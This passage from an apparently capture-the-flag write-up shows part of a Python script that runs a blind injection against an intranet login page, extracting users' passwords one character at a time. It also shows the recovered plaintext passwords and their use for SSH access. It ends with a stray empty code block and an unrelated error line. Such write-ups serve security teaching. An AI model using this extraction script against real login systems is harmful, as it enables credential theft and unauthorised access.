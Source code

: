 ```python

    resp = requests.post("http://172.31.179.1/intranet.php", data=data, proxies=proxies)

    if "Invalid" in resp.text:
        return False

    return printable

def print_status(user, accumulated, current, total, curr_char):
    print("[{} - {}] {} --> {}/{}".format(user, curr_char, accumulated, current, total), end="\r")

user_file = sys.argv[1]


with open(user_file, "r") as rf:
    users = rf.read().strip().split("\n")

accumulated_pass = {}

for user in users:

    accumulated_pass[user] = ""
    pass_index = 1

    count = 0

    while count < len(string.printable[:-5]):

        print_status(user,accumulated_pass[user], count+1, len(string.printable[:-5]), string.printable[count])

        printable = string.printable[count]
        ret_char = blind_attack(user, printable, pass_index)

        if ret_char != False:
            accumulated_pass[user] += ret_char
            pass_index += 1
            count = 0
            continue

        count += 1

    print("")


print(accumulated_pass)
```
<br />We managed to leak usernames! Nice! However, we can take this further by leaking the passwords. We can get the usernames as a list. We can run the code as follows:
<br />
```bash
$ python3 blind.py usernames.txt
[rita -  ] password01! --> 95/95
[jim -  ] stairwaytoheaven --> 95/95
[bryan -  ] ireallyl0vebubblegum!!! --> 95/95
[sarah -  ] sarah4evah --> 95/95
```
<br />We now have our passwords! Let's use them with the ssh!
## User Bryan
The one that worked was actually bryan's (bryan:ireallyl0vebubblegum!!!)
<br />
```
```

[ERROR]: Unable to parse results from <i>queryads.php</i>: <code>Unhandled error message (<code>Invalid domain!</code>)</code>